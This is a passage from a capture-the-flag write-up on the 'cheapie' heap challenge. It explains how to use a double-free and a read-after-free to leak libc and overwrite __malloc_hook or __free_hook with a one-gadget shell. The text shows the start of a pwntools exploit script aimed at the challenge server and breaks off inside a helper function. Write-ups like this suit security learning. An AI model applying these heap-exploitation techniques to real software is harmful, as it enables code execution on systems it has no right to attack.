 We have a lot to work with here. We have an arbitrary arbitrary read including a read-after-free and an arbitrary free including a double-free... this is far from enough to pwn the binary ! We don't have to care about the ASLR regarding the heap since the program prints us the return value of `malloc`.

## Exploiting
I started with the usual heap-exploit methodology : using the double-free to gain a write-what-where primitive in order to write the address of a "one gadget" (a gadget that instantly pops a shell), in the `__malloc_hook` or in `__free_hook`. Since these are located in the libc, we've got to be...

### ... Leaking the libc
Using the read-after-free, we can quickly leak the address of the libc by linking a chunk inside the unsorted bin and reading it. We can do so with :
```python
#!/usr/bin/python3

from pwn import *

exe = ELF("./cheapie")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

gs = """
continue
"""

def start():
    if not args.REMOTE:
        p = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
        gdb.attach(p, "continue\n")
    else:
        p = remote("challenges2.france-cybersecurity-challenge.fr", 4006)
    return p

def malloc(n, data) -> int:
    """
    mallocs `n` bytes, write `data` to the allocated chunk and the address of the user data
    """
    io.sendline("1")
    io.sendlineafter("Amount in bytes [16-1024]: ", f"{n}")
    io.recvuntil(f"malloc({n}) = ")
    chunk_addr = int(io.recvline().strip()[2:], 16)
    io.recvline()
    io.send(data)
    io.recvuntil(">>> ")
    return chunk_addr

def free(addr: int):
    """
    frees `addr`
    """
    io.sendline("2")
    io.sendlineafter("Address to free: ", hex(addr))
    io.recvuntil(">>> ")

def read(addr: int) -> bytearray:
    """
    reads `addr` and returns the content in the form of a bytearray
    """
    addr = hex(addr)
    io.sendline("3")
    io.sendlineafter("Address to show (16-byte sneak peak): ", addr)
    data = io.recvline()
```